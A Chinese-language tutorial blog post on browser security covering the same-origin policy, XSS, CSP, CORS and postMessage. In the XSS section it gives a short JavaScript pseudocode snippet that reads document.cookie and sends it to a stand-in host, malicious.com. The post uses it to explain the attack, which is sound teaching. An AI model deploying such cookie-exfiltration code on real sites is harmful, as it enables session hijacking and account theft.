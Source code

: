 ## 同源策略

## 一、浏览器安全

无风险的世界不存在，包括浏览器，我们知道Web世界是开放的，包容的。但是开放和风险是对立的。

Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：
- 修改站点的 DOM、CSSOM 等信息；
- 在银行站点内部插入 JavaScript 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 Cookie、IndexDB 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全，这就引出了页面中最基础、最核心的安全策略，同源策略（Same-origin policy）

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全、浏览器系统安全


![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c2f93c6deb6f4f9d82c5baf593e1ff68~tplv-k3u1fbpfcp-watermark.image?)

## 二、浏览器是如何工作的

思考几个问题：
- 为什么某些页面会崩溃？
- 为什么页面崩溃后重新打开就正常了？
- 为什么单个tab页面、插件崩溃不会影响其他Tab？
- 为什么有时候浏览器突然退出？


![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/fadd1da2be7c4d0bbd387f00f90ec2ba~tplv-k3u1fbpfcp-watermark.image?)

浏览器的多进程架构
![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/8cafb762399e4a60b9b41409c5e0d6cb~tplv-k3u1fbpfcp-watermark.image?)

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/125e945965b342ed8269f7653c2e9be8~tplv-k3u1fbpfcp-watermark.image?)


## 三、什么同源策略？

如果两个 URL 的`协议`、`域名`和`端口`都相同，我们就称这两个 URL 同源

```
http://ux.admin.com/task
http://wx.admin.com/ticket
https://ux.admin.com/ticket
http://csm.admin.com/dashboard
https://ux.admin.com:8080/api
```
浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的。

### 1、Dom安全

通过window.open打开页面

![操作常见的源](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bf630d9518f94e40815e19fb78867f7f~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/58c656e7985b46ebb1dae3ee66094468~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ef7744ce93584fdd87b04b132334a826~tplv-k3u1fbpfcp-zoom-1.image)

### 2、数据层面。

同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。

### 3、网络层面。

同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。你还记得在

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/04f27ce76e2e4714a6d3b10f40c782ba~tplv-k3u1fbpfcp-watermark.image?)
![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b506a5bebe534d8aa30ac41ecf923593~tplv-k3u1fbpfcp-watermark.image?)

以上就是同源策略，同源策略会隔离不同源的Dom、数据和网络通信等。

但在实际工作中，常常需要不同域名进行访问，不同资源的访问，所以为了发展，就需要出让一些安全策略，满足发展的需要。

## 四、同源策略带来的一些问题

### 1、页面中可以嵌入第三方资源

Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。

比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f32cd7c5bad14171bbaa3da22498d19f~tplv-k3u1fbpfcp-zoom-1.image)

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。


除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){ 
    let url = `http://malicious.com?cookie = ${document.cookie}` 
    open(url)
}

onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。

CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码

通过这些手段就可以大大减少 XSS 攻击。

### 2、跨域资源共享

为了解决这个问题，我们引入了跨域资源共享（CORS)

使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

正常情况下发送跨域请求，浏览器自动添加Origin字段，告诉服务器本次请求的协议、域名和端口号

```
GET /cors HTTP/1.1
Origin: http://api.bob.com
Host: api.alice.com
Accept-Language: en-US
Connection: keep-alive
User-Agent: Mozilla/5.0...
```
返回相应头中包含了可以允许跨域的信息，如果响应头中没有包含Access-Control-Allow-Origin，就可能出现错误
```
Access-Control-Allow-Origin: http://api.bob.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: FooBar
Content-Type: text/html; charset=utf-8
```
withCredentials

CORS请求默认不发送Cookie和HTTP认证信息

如果要发送服务器，服务器和客户端都要增加参数

```
Access-Control-Allow-Credentials: true
```

```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```


### 3、跨文档消息机制

可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。


```js
/*
 * A窗口的域名是<http://example.com:8080>，以下是A窗口的script标签下的代码：
 */

var popup = window.open(...popup details...);

// 如果弹出框没有被阻止且加载完成

// 这行语句没有发送信息出去，即使假设当前页面没有改变location（因为targetOrigin设置不对）
popup.postMessage("The user is 'bob' and the password is 'secret'",
                  "https://secure.example.net");

// 假设当前页面没有改变location，这条语句会成功添加message到发送队列中去（targetOrigin设置对了）
popup.postMessage("hello there!", "http://example.org");

function receiveMessage(event)
{
  // 我们能相信信息的发送者吗?  (也许这个发送者和我们最初打开的不是同一个页面).
  if (event.origin !== "http://example.org")
    return;

  // event.source 是我们通过window.open打开的弹出页面 popup
  // event.data 是 popup发送给当前页面的消息 "hi there yourself!  the secret response is: rheeeeet!"
}
window.addEventListener("message", receiveMessage, false);

```


## 五、小结

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/0c6dcc8f3ce74d96b1fd195f75e1d826~tplv-k3u1fbpfcp-watermark.image?)


## 六、参考文章
- [阮一峰CORS](http://www.ruanyifeng.com/blog/2016/04/cors.html)
- https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP
